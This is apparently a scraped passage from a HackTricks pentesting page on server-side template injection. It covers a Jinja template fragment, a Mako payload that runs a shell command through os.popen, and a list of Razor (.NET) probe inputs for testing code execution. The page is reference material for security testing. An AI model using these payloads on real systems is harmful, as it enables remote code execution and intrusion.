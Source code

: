 <ul>

{% for user in users %}

<li><a href="{{ user.url }}">{{ user.username }}</a></li>

{% endfor %}

</ul>

{% endblock %}

​

**More details about how to abuse Jinja**:

[

Jinja2 SSTI





](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

## 

Mako (Python)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python)

<%

import os

x=os.popen('id').read()

%>

${x}

## 

Razor (.Net)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)

-   `@(2+2) <= Success`
    

-   `@() <= Success`
    

-   `@("{{code}}") <= Success`
    

-   `@ <=Success`
    

-   `@{} <= ERROR!`
    

-   `@{ <= ERRROR!`
    

-   `@(1+2)`
    

-   `@( //C#Code )`
    